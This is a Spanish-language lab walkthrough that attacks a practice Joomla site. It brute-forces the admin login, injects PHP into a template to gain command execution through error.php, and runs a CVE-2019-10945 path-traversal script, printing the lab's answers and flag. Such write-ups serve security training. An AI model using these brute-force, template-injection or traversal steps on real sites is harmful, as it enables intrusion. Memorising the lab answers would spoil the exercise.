


# Laboratorio: Joomla 🏫

1. Agregamos el dominio y la dirección IP al archivo **`/etc/hosts`**
--

2. Para saber la versión de Joomla visitamos el archivo `/README.txt`
* **URL:** `http://app.inlanefreight.local/README.txt`

```java
1- What is this?
	* This is a Joomla! installation/upgrade package to version 3.x
	* Joomla! Official site: https://www.joomla.org
	* Joomla! 3.10 version history - https://docs.joomla.org/Special:MyLanguage/Joomla_3.10_version_history
	* Detailed changes in the Changelog: https://github.com/joomla/joomla-cms/commits/3.10-dev
<SNIP>
```

* **Respuesta:** `3.10.0`
---
3. Realizaremos **fuerza bruta** con [joomla-brute](https://github.com/ajnik/joomla-bruteforce)
* `python3 joomla-brute.py -u http://app.inlanefreight.local -w http_default_pass.txt -usr admi`

* **Respuesta:** `admin:turnkey`
---

# Laboratorio: Attacking Joomla 📁

1. Ya teniendo las **credenciales** nos loguearemos e insertaremos código **php** para ejecutar comandos.

<p align="center">
    
</p>

---

2. Con el **RCE** anterior, podemos leer directamente la `flag` en el directorio **`dev.inlanefreight.local`**

* **URL:** `http://app.inlanefreight.local/templates/protostar/error.php?qweiopsaklndn=cat%20/var/www/dev.inlanefreight.local/flag_[ID].txt`

---

## Segunda Forma ✌
1. Al usar `joomla-brute` para el usuario `admin` sabemos que las credenciales `admin:admin`, usaremos el script [dev_joomla](https://github.com/dpgg101/CVE-2019-10945/blob/main/CVE-2019-10945.py)

* `python3 path_traversal.py --url http://dev.inlanefreight.local/administrator/ --username admin --password admin`

**Output**
```
 _    _          ____   ____   ____  ____  
| |  | |   /\   |  _ \ / __ \ / __ \|  _ \ 
| |__| |  /  \  | |_) | |  | | |  | | |_) |
|  __  | / /\ \ |  _ <| |  | | |  | |  _ < 
| |  | |/ ____ \| |_) | |__| | |__| | |_) |
|_|  |_/_/    \_\____/ \____/ \____/|____/ 
                                                                        


administrator
bin
cache
cli
components
images
includes
language
layouts
libraries
media
modules
plugins
templates
tmp
LICENSE.txt
README.txt
configuration.php
flag_6470e394cbf6dab6a91682cc8585059b.txt
htaccess.txt
index.php
robots.txt
web.config.txt
```

---

2. Ahora inyectamos código `php` en un template

<p align="center">
    
</p>

* Por último 🟩`Guardamos`🟩
---

3. Ahora ya podemos ejecutar comandos y podemos leer la `flag`
* **URL:** `http://dev.inlanefreight.local/templates/protostar/error.php?0=cat%20../../flag_6470e394cbf6dab6a91682cc8585059b.txt`

**Output**
`j00mla_c0re_d1rtrav3rsal!`